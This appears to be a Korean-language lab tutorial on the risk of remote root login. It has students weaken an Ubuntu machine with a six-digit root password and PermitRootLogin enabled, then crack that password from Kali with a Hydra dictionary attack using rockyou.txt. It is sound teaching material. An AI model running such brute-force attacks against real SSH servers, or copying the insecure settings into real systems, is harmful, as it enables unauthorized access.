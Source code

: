 ## root 계정 원격접속 제한

`rrot` 계정의 원격 접속을 허용하면 어떤 문제가 발생할 수 있는지 알아봅시다.

### 실습 1 : SSH를 통한 사전 대입 공격

**[우분투] 먼저 시스템을 취약하게 만듭시다.**

1. 먼저 공격자를 위해 `root` 계정의 패스워드를 `111111`로 변경합니다(`1`이 6개).
```
cju@wooam:~$ sudo passwd
```

2. 우분투에 OpenSSH 서버를 설치합니다. 이제 공격자가 SSH를 통해 우툰투에 접속을 시도할 수 있습니다!
```
cju@wooam:~$ sudo apt install openssh-server
```

3. OpenSSH 서버는 기본적으로 `root` 계정의 원격 접속을 허용하지 않습니다. `root` 계정의 원격 접속을 허용하기 위하여 OpenSSH 서버 설정 파일(`sssh_config`)을 `vi`나 `nano`로 엽니다.
```
sudo vi /etc/ssh/sshd_config
```

4. 설정 파일에서 `#PermitRootLogin prohibit-password`를 `PermitRootLogin yes`로 변경하고 저장합니다. 맨 앞의 `#`도 제거해야 합니다. SSH를 통해 `root` 계정의 접속을 가능하게 합니다.
```
PermitRootLogin prohibit-password
```

5. 변경된 설정을 적용하기 위하여 OpenSSH 서버를 다시 시작합니다.
```
sudo systemctl restart sshd
```

6. 마지막으로 우분투 IP 주소를 확인합니다.
```
cju@wooam:~$ ip a
```

**[칼리] 이제 원격에서 `root` 계정의 비번을 털어봅시다!**


7. 모든 리눅스에는 `root` 계정이 있습니다. 만약 `root` 계정의 원격 접속이 가능하다면 사전 공격을 통해 패스워드를 알아낼 수도 있습니다. 칼리에 있는 Hydra 도구로 사전 대입 공격을 시작합니다!
```
$ hydra -l root -P /usr/share/wordlists/rockyou.txt.gz ssh://192.168.XXX.xxx
```

8. 기다리고 있으면 우분투 `root` 계정의 패스워드가 보입니다!
```
[22][ssh] host: 192.168.XXX.XXX   login: root   password: 111111
```

9. [칼리] (참고) 사전 파일 확인
```
$ vi /usr/share/wordlists/rockyou.txt.gz
```